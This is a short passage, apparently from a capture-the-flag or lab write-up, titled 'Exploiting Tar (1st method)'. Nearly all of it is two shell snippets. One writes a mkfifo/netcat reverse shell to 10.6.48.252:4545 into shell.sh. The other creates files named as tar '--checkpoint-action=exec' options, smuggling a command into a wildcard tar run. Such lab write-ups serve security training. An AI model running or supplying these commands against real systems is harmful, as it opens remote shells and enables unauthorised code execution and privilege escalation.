 - - -
## Exploiting Tar ( 1st method ) :

```sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.48.252 4545 >/tmp/f" > shell.sh ; chmod +x shell.sh
```

```sh 
touch "./--checkpoint-action=exec=sh shell.sh" ; touch "./--checkpoint=1"
```

- - -

